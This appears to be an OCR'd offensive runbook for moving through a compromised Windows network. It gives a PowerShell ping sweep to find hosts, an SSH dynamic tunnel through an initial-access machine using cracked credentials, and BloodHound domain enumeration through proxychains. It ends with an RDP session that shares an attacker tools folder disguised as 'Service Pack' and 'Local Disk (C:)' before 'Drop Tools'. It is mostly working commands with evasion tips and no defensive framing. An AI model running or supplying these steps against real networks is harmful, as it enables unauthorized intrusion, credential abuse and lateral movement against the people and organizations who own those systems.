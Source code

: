 127.0.0.0/8

10.0.0.0/8

224.0.0.0/8

255.255.255.255

0.0.0.0

1..254 | ForEach-Object { $ip="192.168.0.$_"; if ((New-Object Net.NetworkInformation.Ping).Send($ip, 1).Status -eq "Success") { try { "$ip - $([System.Net.Dns]::GetHostEntry($ip).HostName -replace '\.$','')" } catch { "$ip -                     Hostname: Unavailable" } } }

CHANGE THE 3rd OCTET ONCE IT COMPLETES TO ENUMERATE MORE HOSTS ENSURE YOU SWEEP A FEW OF THE 1st-10th (3rd Octet) RANGE OF IPs

This is a pingsweep with a hostname lookup scan. If an ip responds, we now have a target to land on to try more credentials.

Once you feel like you have enumerated enough IP addresses, 

Establishing a Redirector

Setting up redirectors with ssh, we also use the screen command just in case we get disconnected from our session, we also don't accidently send any commands to the wrong IP addresses or tip our hand. This is a tradecraft mechanism. Unfortunately, nmap does not work with dynamic tunnels for some reason. What we can do instead is try another way. We'll do some RDP scanning instead.  To detach from the screen session type Ctrl+A then D. To view screen sessions run screen -ls. To reattach to a detached screen run screen -r <screen session name>.

Create the first SSH tunnel

# in case your terminal quits, the screen command will save it
screen -S IT-Dynamic-SSH
# create a dynamic port forward to use proxychains through
clear;echo "Dynamic Port Forward to IT";ssh <CRACKED USER>@<INITIAL ACCESS IP> -D 9050 -N

On another kali terminal window: More Bloodhound Enumeration

Since at this point we found the DC's IP, we can now do some bloodhound enumeration and add it to our map.

cd /home/kali/Desktop/tools
proxychains bloodhound-python -u <CRACKED USER> -p '<CRACKED PASS>' -d <DOMAIN> -ns <DC IP> -c All --zip

we can now do some enumeration offline and make our strike plan

Connect to next target via RDP through proxychains

proxychains xfreerdp3 /u:'<BULLIT>' /p:'<>' /v:<NEW TARGET IP> /drive:/home/kali/Desktop/tools/Service\ Pack,'Local	Disk	(Cː)'

Drop Tools
